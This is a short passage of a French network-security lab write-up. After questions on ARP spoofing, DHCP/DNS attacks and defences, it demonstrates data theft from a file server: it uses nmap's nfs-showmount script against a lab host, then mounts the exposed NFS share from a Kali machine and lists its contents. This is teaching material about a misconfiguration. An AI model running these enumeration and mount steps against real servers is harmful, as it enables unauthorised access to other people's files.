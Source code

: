 ![arpspoof](arpspoof.png)

- En vous appuyant sur les protocoles DHCP et DNS, comment pouvez-vous arriver à un résultat équivalent ?



- Quelles solutions pourraient vous permettre de renforcer cette sécurité et de limiter ces attaques ?

## EXERCICE 7 - Vol de données sur les serveurs de fichier

- Déposez un fichier quelconque sur le serveur Samba dans le partage créé (data).
```
touch /data/carambole/superfichier.txt
```

- Montrez qu'il est possible d'y accéder avec la machine Kali depuis LAN en passant par le protocole NFS.
```
$ nmap --script=nfs-showmount 192.168.33.210
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 10:03 EDT
Nmap scan report for 192.168.33.210
Host is up (0.00023s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
111/tcp  open  rpcbind
| nfs-showmount: 
|_  /data 192.168.33.0/24
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
MAC Address: 08:00:27:EC:D4:71 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
                                                                                     
$ mkdir /tmp/mount
                                                                                                                  
$ sudo mount -t nfs 192.168.33.210:data /tmp/mount -nolock
                                                                                                                  
$ ls /tmp/mount 
carambole
                                                                                                                  
$ ls /tmp/mount/carambole 
superfichier.txt
```
